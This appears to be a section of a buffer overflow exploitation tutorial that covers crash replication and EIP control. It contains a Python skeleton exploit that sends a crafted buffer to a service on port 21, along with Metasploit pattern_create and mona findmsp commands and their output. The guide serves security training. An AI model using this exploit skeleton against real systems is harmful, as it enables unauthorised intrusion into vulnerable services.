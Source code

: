 Crash Replication & Controlling EIP
===================================

The following skeleton exploit code can be used for the rest of the buffer overflow exploit:

    import socket
    
    ip = "10.0.0.1"
    port = 21
    
    prefix = ""
    offset = 0
    overflow = "A" * offset
    retn = ""
    padding = ""
    payload = ""
    postfix = ""
    
    buffer = prefix + overflow + retn + padding + payload + postfix
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    try:
        s.connect((ip, port))
        print("Sending evil buffer...")
        s.send(buffer + "\r\n")
        print("Done!")
    except:
        print("Could not connect.")

Using the buffer length which caused the crash, generate a unique buffer so we can determine the offset in the pattern which overwrites the EIP register, and the offset in the pattern to which other registers point. Create a pattern that is 400 bytes larger than the crash buffer, so that we can determine whether our shellcode can fit immediately. If the larger buffer doesn't crash the application, use a pattern equal to the crash buffer length and slowly add more to the buffer to find space.


    $ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

While the unique buffer is on the stack, use mona's findmsp command, with the distance argument set to the pattern length.


    !mona findmsp -distance 600
    ...
    [+] Looking for cyclic pattern in memory
    Cyclic pattern (normal) found at 0x005f3614 (length 600 bytes)
    Cyclic pattern (normal) found at 0x005f4a40 (length 600 bytes)
    Cyclic pattern (normal) found at 0x017df764 (length 600 bytes)
    EIP contains normal pattern : 0x78413778 (offset 112)
    ESP (0x017dfa30) points at offset 116 in normal pattern (length 484)
    EAX (0x017df764) points at offset 0 in normal pattern (length 600)
    EBP contains normal pattern : 0x41367841 (offset 108)
    ...
